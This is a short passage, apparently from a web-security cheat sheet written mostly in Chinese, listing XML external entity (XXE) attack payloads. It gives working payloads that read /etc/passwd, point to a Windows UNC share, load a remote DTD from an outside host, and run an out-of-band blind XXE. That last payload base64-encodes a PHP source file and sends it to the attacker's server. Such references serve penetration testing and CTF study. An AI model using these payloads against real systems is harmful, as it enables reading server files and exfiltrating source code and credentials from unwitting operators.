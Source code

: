 ## 外部實體

- `libxml2.9.0`以後，預設不解析外部實體
- `simplexml_load_file()`舊版本中預設解析實體，但新版要指定第三個參數`LIBXML_NOENT`
- `SimpleXMLElement` is a class in PHP
  - http://php.net/manual/en/class.simplexmlelement.php

```xml
<!DOCTYPE kaibro[
  <!ENTITY xxe SYSTEM "http://kaibro.tw/xxe.txt">
]>
<root>&xxe;</root>
```

```xml
<!DOCTYPE kaibro[
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

### XXE on Windows

```xml
<!DOCTYPE kaibro[
  <!ENTITY xxe SYSTEM "\\12.34.56.78">
]>
<root>&xxe;</root>
```

## 參數實體

```xml
<!DOCTYPE kaibro[
  <!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
  %remote;
]>
<root>&b;</root>
```
xxe.dtd: `<!ENTITY b SYSTEM "file:///etc/passwd">`


## Out of Band (OOB) XXE

- Blind 無回顯

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/xxe/test.php">
<!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```
